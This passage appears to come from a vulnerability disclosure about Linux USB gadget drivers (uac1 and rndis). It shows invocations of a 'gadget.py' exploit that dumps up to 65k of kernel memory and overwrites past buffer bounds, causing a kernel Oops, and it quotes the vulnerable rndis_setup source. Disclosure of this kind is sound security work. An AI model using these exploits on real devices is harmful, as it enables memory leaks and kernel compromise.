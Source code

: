 Execution of the sample readout exploit allows dumping of up to 65k of memory.

```
    $ ./gadget.py -v 0x1b67 -p 0x400c -f uac1 | wc -c
    65535
```

```
    $ ./gadget.py -v 0x1b67 -p 0x400c -f uac1 | strings

    nsole=tty1 root=PARTUUID=e02024cb-02 rootfstype=ext4 elevator=deadline fsck.repair=yes rootwait modules-load=dwc2
    tem.slice/system-getty.slice/getty@ttyGS0.service
    !rE*
    ?& .4!
    0usb_composite_setup_continue
    composite_setup
    usb_gadget_get_string
    usb_otg_descriptor_init
    usb_otg_descriptor_alloc
    usb_free_all_descriptors
    usb_assign_descriptors
    usb_copy_descriptors

    usb_gadget_config_buf
```

On the other hand, execution of the overwrite exploit allows one to write arbitrary data past expected buffer boundaries.
```
    $ ./gadget.py -v 0x1b67 -p 0x400c -f uac1 -d write

    Message from syslogd@zero at Dec  6 19:56:01 ...
     kernel:[  103.850206] Internal error: Oops: 5 [#1] ARM
```

Similarly in case of the rndis gadget the rndis_setup function can be exploited to write past buffer boundaries using control transfer request with direction out, type class, recipient interface and bRequest set to USB_CDC_SEND_ENCAPSULATED_COMMAND.

```
    static int
    rndis_setup(struct usb_function *f, const struct usb_ctrlrequest *ctrl)
    {
            struct f_rndis          *rndis = func_to_rndis(f);
            struct usb_composite_dev *cdev = f->config->cdev;
            struct usb_request      *req = cdev->req;
            int                     value = -EOPNOTSUPP;
            u16                     w_index = le16_to_cpu(ctrl->wIndex);
            u16                     w_value = le16_to_cpu(ctrl->wValue);
            u16                     w_length = le16_to_cpu(ctrl->wLength);
            /* composite driver infrastructure handles everything except
             * CDC class messages; interface activation uses set_alt().
             */
            switch ((ctrl->bRequestType << 8) | ctrl->bRequest) {
            /* RNDIS uses the CDC command encapsulation mechanism to implement
             * an RPC scheme, with much getting/setting of attributes by OID.
             */
            case ((USB_DIR_OUT | USB_TYPE_CLASS | USB_RECIP_INTERFACE) << 8)
                            | USB_CDC_SEND_ENCAPSULATED_COMMAND:
                    if (w_value || w_index != rndis->ctrl_id)
                            goto invalid;
                    /* read the request; process it later */
                    value = w_length;
                    req->complete = rndis_command_complete;
                    req->context = rndis;
                    /* later, rndis_response_available() sends a notification */
```
